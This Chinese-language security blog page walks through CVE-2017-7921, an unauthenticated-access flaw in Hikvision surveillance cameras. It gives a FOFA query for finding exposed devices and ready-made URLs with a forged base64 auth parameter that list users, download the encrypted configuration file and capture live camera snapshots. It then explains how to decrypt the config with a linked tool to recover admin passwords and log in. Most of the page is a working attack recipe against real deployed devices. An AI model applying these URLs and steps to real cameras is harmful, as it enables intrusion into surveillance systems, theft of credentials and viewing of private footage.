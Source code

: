 ```yaml
---
layout: about
category: about
Researchname: Hikvision-ConfigurationFiles-decrypter
permalink: /about/Hikvision-ConfigurationFiles-decrypter/
---
```


> *fofa： app="HIKVISION-视频监控"*
>
> *HIKVISION*监控设备管理后台存在未授权，通过构造url可绕过登录查看监控，检索所有用户和配置文件下载。

构造url主要是通过如下的`auth`参数构造生成base64加密字段，如下所示：

```bash
➜  echo admin:11 |base64
YWRtaW46MTEK
```

<h2><li>检索所有用户及其角色的列表</li></h2>
`http://{ip.addr}:{ip.port}/Security/users?auth=YWRtaW46MTEK`

返回xml信息：

```xml
<UserList version="1.0">
<User version="1.0">
<id>1</id>
<userName>admin</userName>
<priority>high</priority>
<ipAddress>0.0.0.0</ipAddress>
<macAddress>00:00:00:00:00:00</macAddress>
<userLevel>Administrator</userLevel>
</User>
</UserList>
```

---

<h2><li>下载账号密码配置文件</li> </h2>


`http://{ip.addr}:{ip.port}/System/configurationFile?auth=YWRtaW46MTEK`

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

如上，我们配置文件下载完成后可以看到是PGP加密文件，所以我们需要对文件进行解密才可以找到账号密码的配置信息；文件解密出的账号密码就是监控设备后台管理的账号密码信息，我们得到信息直接登录即可。解密软件用法及链接如下：

### *# Usage:*

<div class="col-lg-7">
<img align="left" src="/static/web-image/Hikvision/Hikvision-pass.png"/>
</div>

<div>

<h3> <em>Open [hikvision-decrypter.exe] on Windows platform:</em> </h3>

<li><code>Open Configuration File -> </code></li>

<li><code>Encrypted -> </code></li>

<li><code>Decrypt Data(Decrypting AES...) -> </code></li>

<li><code>(Successfully decrypted data) -> </code></li>

<li><code>Save Configuration File. </code></li>


</div>

### *# Find pass in decrypted data*

用 010-Editor程序打开decrypted data 文件. 文件内搜索admin字符串，如左图；

**Boom! Easy to find password! (admin:asdf1234)**

<span style="margin-left: 1em">* 我们通过[Usage]来获得的帐号密码登录即可，有机会会从代码角度分析一下为什么存在未授权访问</span>

### *#* 相关链接一览表

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe){:target="_blank"} and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa){:target="_blank"}
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa){:target="_blank"}

---

<h3><li>获取监控快照</li></h3>

`http://{ip.addr}:{ip.port}/onvif-http/snapshot?auth=YWRtaW46MTEK`

当前时间下监控的快照图片

![](/static/web-image/Hikvision/Hikvision-unauth-view.png)


## 参考

- [CVE-2017-7921海康威视摄像头管理后台未授权](https://www.freebuf.com/vuls/268245.html){:target="_blank"}
- [Hikvision Decrypter](https://github.com/WormChickenWizard/hikvision-decrypter){:target="_blank"}


以上。

